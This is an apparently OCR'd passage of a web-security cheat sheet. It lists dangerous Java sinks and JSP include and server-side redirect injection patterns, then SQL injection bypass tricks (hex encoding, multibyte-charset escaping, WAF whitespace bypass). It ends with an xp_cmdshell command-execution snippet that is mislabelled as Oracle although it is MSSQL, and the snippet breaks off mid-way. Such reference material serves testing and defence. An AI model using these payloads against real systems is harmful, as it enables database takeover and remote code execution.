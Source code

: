     freemarker.template.Template
    javax.script.ScriptEngine.eval
    
    ServletDispatcherResult
    createNativeQuery
    isELIgnored=false
    getELContext
    createValueExpression
    parseExpression
    ognlUtil.getValue
    ScriptEngineManager
    ELAsString

    spring:eval
    SSLContext.getInstance("SSL") -> SSLContext.getInstance("TLS")
    getSession().setAttribute
    ```
* [sonar rules](https://rules.sonarsource.com/java/type/Vulnerability/RSPEC-4435)
    ```
    LDAP serialization entities
    Persistent entities with @RequestMapping
    ```
* jsp include injection
    ```
    <%@include file="" %>
    <jsp:include page=""/> 
    ```
* server side redirects
    ```
    request.getRequestDispatcher("./"+user_input+".jsp").include(request, response)  // with user_input == "applicationContext.xml?""
    return new ModelAndView(user_input);
    Return new ActionForward(user_input); 
    ```


# SQL
* hex encoding
    + union select X'31333337' -> union select 1337
* charsets big5, cp932, gb2312, gbk and sjis
    + [\xbf\x27 escaped to \xbf\x5c\x27, but \xbf\x5c are treated as one char, leaving \x27 unescaped](http://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string/12118602#12118602)
* [Hibernate + H2 db: non-breaking-space is not recognized by Hibernate](https://github.com/p4-team/ctf/tree/master/2016-01-29-nullcon/web_5#eng-version)
* WAF bypass with %0b,%0c,0%a, /\*\*/, like that: sel%0bect
* oracle db
    ```
    # rce
    EXEC master..sp_configure 'show advanced options',1;
    RECONFIGURE WITH OVERRIDE;
    EXEC master..sp_configure 'xp_cmdshell',1;
    RECONFIGURE WITH OVERRIDE;
    EXEC master..sp_configure 'show advanced options',0;
    RECONFIGURE WITH OVERRIDE;
    DECLARE @result TABLE (asd VARCHAR(512));
    declare @cmd nvarchar(1000);
    DECLARE @data VARCHAR(8000);
    set @cmd = \''''+cmd+'''\';
    INSERT INTO @result
         execute xp_cmdshell @cmd;
    SELECT @data = asd FROM @result;